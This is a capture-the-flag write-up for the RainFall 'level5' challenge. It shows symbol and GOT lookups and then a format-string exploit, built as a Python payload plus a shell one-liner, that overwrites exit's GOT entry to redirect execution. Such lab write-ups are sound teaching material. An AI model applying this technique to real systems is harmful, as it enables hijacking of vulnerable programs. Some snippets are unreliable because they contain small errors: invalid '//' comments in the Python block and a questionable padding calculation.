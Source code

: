 ```bash
evel5@RainFall:~$ readelf -s level5 | grep o
Symbol table '.dynsym' contains 10 entries:
     5: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
Symbol table '.symtab' contains 73 entries:
    31: 08048420     0 FUNC    LOCAL  DEFAULT   13 __do_global_dtors_aux
    32: 0804984c     1 OBJECT  LOCAL  DEFAULT   25 completed.6159
    33: 08049850     4 OBJECT  LOCAL  DEFAULT   25 dtor_idx.6161
    39: 080485a0     0 FUNC    LOCAL  DEFAULT   13 __do_global_ctors_aux
    57: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    59: 08049844     0 OBJECT  GLOBAL HIDDEN    24 __dso_handle
    67: 080484a4    30 FUNC    GLOBAL DEFAULT   13 o

```

```bash
(gdb) x o
0x80484a4 <o>:	0x83e58955
```

address of function o: `080484a4` == `\xa4\x84\x04\x08`

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

offset of buffer of printf is `3`

---

```bash
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

Address of exit is `08049838` == `\x38\x98\x04\x08`

## Payload

value to write = adress of o = `0x080484a4` = `134513828`

Lets do 2 writes

value 1: `0x 0000 84a4` = `33956`
value 2: `0x 0001 0804` = `67588`

cible 1 = `08049838` 				== `\x38\x98\x04\x08`

cible 2 = cible1 + 2 ==  `804983A`	== `\x3a\x98\x04\x08`

```python
exploit = ""
exploit += "\x38\x98\x04\x08"	//cible1
exploit += "\x3a\x98\x04\x08"	//cible2
exploit += "%3$33948x"			// padding to get to value 1 (33956 - 8 = 33948)
exploit += "%3$n"				//write cible 1
exploit += "%3$33624x"			//paddding to get to value 2 (67588 - 33956 - 8 = 33624)
exploit += "%4$n"
```

```bash
(python -c 'print ("\x38\x98\x04\x08" + "\x3a\x98\x04\x08" + "%3$33948x" + "%3$n" + "%3$33624x" + "%4$n")';cat) | ./level5
```
